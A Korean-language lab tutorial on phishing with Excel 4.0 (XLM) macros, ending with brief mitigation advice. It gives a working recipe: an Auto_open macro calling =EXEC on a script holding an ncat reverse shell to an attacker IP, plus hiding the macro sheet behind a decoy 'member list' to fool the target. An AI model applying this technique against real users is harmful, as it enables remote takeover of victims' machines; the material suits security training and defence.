 # XLM Excel 4.0 매크로

XLM (Excel 4.0) 매크로를 사용한 피싱 탬플랫 기법은 매우 전통적이고 유래가 깊은(?) 공격 탬플릿  기법이다. 이 기법을 사용한 공격은 주로 악성코드를 포함한 문서 파일을 이메일 첨부파일이나 링크를 통해 유포하는 사이버 범죄자나 해커들이 초기 침투 방식으로 사용하는 탬플릿 중 하나이기도 하다.

다행스럽게도, 최근 버전의 Microsoft Office에서는 VBA 매크로 실행을 디폴트로 비활성화하게 되어있고, XLM (Excel 4.0) 매크로를 사용한 공격 기법은 1990년대에 개발된 굉장히 오래된 기술이며 보안 기술의 발전으로 인해 많이 찾지 않는 공격 기법이다. 따라서, 최근에는 XLM 매크로를 사용하는 공격이 VBA 매크로를 사용하는 공격보다는 정식 파일에 chm,lnk,hta등을 심어 사용하는 기법이 주로 쓰인다.

하지만 혹시라도 매크로 공격에 취약한 Excel 4.0과 5.0버전을 아직까지도 쓴다거나 블랙 해커가가 화려한언변과 소셜 엔지니어링을 통해 타겟 유저가 스스로 매크로 활성을 하게 유도한다면 매크로 공격은 쉽고도 정확한 공격 기법이 될수 있다.

## 실습

실습을 위해 File -> Info -> Macro Settings -> Enable VBA Macros...를 선택해 매크로를 활성화해준다.

![](<../../obsidian\_resources/Pasted image 20230502195135.png>)

아래 시트에서 우클릭 -> Insert (추가) -> MS Excel 4.0 Macro -> OK를 해준다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230502193306.png" alt=""><figcaption></figcaption></figure>

간단한 테스트를 위해 아래 같이 각 열에 입력하여 계산기 (calc.exe)와 함께 "HELLO WORLD" 구문이 열리는지 확인해본다.

```
=EXEC("calc.exe")
=ALERT("HELLO WORLD!")
=HALT()
```

성공했다! 이제 우리는 EXCEL의 매크로를 통해 커맨드 EXEC로 앱 실행이 가능하다는 것을 알았다!&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230502193523.png" alt=""><figcaption></figcaption></figure>

### 실전 예제

실전 예제를 들어보자.

이제 공격자는 타겟이 사용하는 EXCEL 매크로 기능을 통해 로컬 바이너리를 실행할 수 있다라는 사실을 알았다.

그렇다면 공격자는 간단한 netcat 리버스 쉘을 실행하는 백도어를 매크로에 심어 타겟이 공격자에 연결되게끔 할수 있다는 말이다!

shell.cmd 에 \`ncat 192.168.137.131 443 -e cmd.exe 를 저장한다. 공격자에 포트 443로 연결을 시도한다라는 뜻이다.

아래와 같이 shell.cmd를 실행하는 매크로를 생성하고 A1을 Auto\_open으로 바꿔주면 파일이 열림과 동시에 매크로가가 자동으로 실행될게 해줄수 있다.

```
=EXEC("C:\Temp\shell.cmd")
=ALERT("GROOT!")
=HALT()
```

![](<../../obsidian\_resources/Pasted image 20230502195827.png>)

일단 매크로 구문이 들어있는 EXCEL 파일은 누가봐도 수상하기 때문에 Hide (숨기기)를 해주고 정상 파일로 보이게 "회원 명단"과 같은 내용을 넣어준다.&#x20;

<figure><img src="../../obsidian_resources/Pasted image 20230502195849.png" alt=""><figcaption></figcaption></figure>

타겟 유저가 보는 EXCEL 파일에는 매크로 탭은 보이지 않고 "회원 명단"만 보이게 되어 의심을 피할 수 있다.

<figure><img src="../../obsidian_resources/Pasted image 20230504185904.png" alt=""><figcaption></figcaption></figure>

이제 타겟이 EXCEL 파일을 여는 순간 아래와 같이 공격자의 포트 443으로 리버스 쉘이 연결된 것을 알 수 있다!&#x20;

<figure><img src="../../obsidian_resources/화면 캡처 2023-05-02 200259.png" alt=""><figcaption></figcaption></figure>

## 대응방안

XLM (Excel 4.0) 매크로를 사용한 공격 기법에 대응하기 위한 방안은 매크로 공격에 취약한 Excel을 최신 버전으로 패치하는거다. 또한 대부분의 안티바이러스 및 방화벽과 같은 보안 솔루션을 XLM 매크로 실행을 탐지하고 차단할 수 있으니 너무 걱정은 하지 않다도 되지만 그래도

마지막으로, 너무나도 당연하지만 수상한 이메일 첨부 파일이나 다운로드 링크를 클릭하지 않아야 한다. 만약에 매크로를 활성화해야 한다는 IT부서의 권고 이메일을 받게 되면 진짜 IT부서가 맞는지 의심하고 또 의심하길 바란다.

## 레퍼런스

{% embed url="https://en.wikipedia.org/wiki/Microsoft_Excel" %}

{% embed url="https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-xlm-macro-4.0" %}

{% embed url="https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm" %}

{% embed url="https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf" %}

